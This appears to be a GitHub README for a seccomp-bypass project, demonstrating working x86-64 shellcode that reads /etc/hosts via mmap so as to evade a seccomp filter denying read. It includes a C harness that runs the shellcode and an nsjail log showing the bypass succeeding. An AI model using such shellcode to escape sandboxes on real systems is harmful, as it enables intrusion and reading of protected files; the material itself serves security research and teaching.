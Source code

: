 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. The code below is a contrived application that just executes the shell code we specify.* So no vulnerability is required, but it suffices to prove the point.

&gt;:cat read-with-mmap.c
```
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
 *Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcode that performs the specified action in the case where the specified system calls are disallowed. The shellcode is derived by running `src/gen-shellcode.sh $file.s`.

## Read a file from the filesystem
### Syscalls disallowed: `read`
This example is based on shellcode from `src/read-with-mmap.s` that reads the `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output.

To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy. Try replacing `read` with any of `open`,`close`,`write`, or `mmap` in the DENY clause. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $HOME/seccomp-bypass/read-with-mmap
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Uid map: inside_uid:360840 outside_uid:360840
[2017-05-12T16:48:04-0700] Gid map: inside_gid:5000 outside_gid:5000
[2017-05-12T16:48:04-0700] Executing '/home/unixist/seccomp-bypass/read-with-mmap' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls disallowed: `read`, `write`, `mmap`
coming soon
